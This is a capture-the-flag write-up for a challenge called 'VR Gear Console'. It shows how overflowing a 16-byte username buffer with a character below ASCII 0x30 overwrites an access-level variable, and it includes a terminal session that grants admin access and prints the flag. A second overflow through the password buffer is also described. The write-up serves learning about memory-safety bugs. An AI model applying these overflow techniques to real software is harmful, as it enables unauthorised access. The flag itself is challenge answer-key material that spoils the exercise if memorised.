 # VR Gear Console

> Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/d07d574d3d27c5eeb03bce97956ef1c3

Hints:

> What happens if you read in more characters than the length of the username buffer?

> You should look at an ascii table to see what character you need to choose.

> Numbers are stored in little-endian format, which means that the lowest byte of the number is first.

> "cat file - | vrgearconsole " will keep the pipe open for commands.

We can see that we can input more than 16 (null byte at the end of the string also counts) characters as the username which causes buffer overflow. After our username in memory there's accessLevel variable.
It means the 16th username character will become our accessLevel. If this variable is lower than 0x30 we will get flag. Characters we can use are space and `!"#$%&'()*+,-./`.

```
<username>@shell-web:/problems/d07d574d3d27c5eeb03bce97956ef1c3$ ./vrgearconsole              
+----------------------------------------+                                                
|                                        |                                                
|                                        |                                                
|                                        |                                                
|                                        |                                                
|  Welcome to the VR gear admin console  |                                                
|                                        |                                                
|                                        |                                                
|                                        |                                                
|                                        |                                                
+----------------------------------------+                                                
|                                        |                                                
|      Your account is not recognized    |                                                
|                                        |                                                
+----------------------------------------+                                                
                                                                                          
                                                                                          
                                                                                          
                                                                                          
Please login to continue...                                                               
                                                                                          
                                                                                          
Username (max 15 characters): AAAAAAAAAAAAAAAA/                                           
Password (max 31 characters):                                                             
Your access level is: 0x0000002f                                                          
Admin access granted!                                                                     
The flag is in "flag.txt".                                                                
$ cat flag.txt                                                                            
1ce8d7a95570d97333d52675fe099c27                                                          
$ exit                                                                                    
```

By the way, you can also overflow password buffer. To do that you need to type 48 characters (32 for password and 16 for username) and then one of the characters with ASCII code below 0x30.

The flag is `1ce8d7a95570d97333d52675fe099c27`.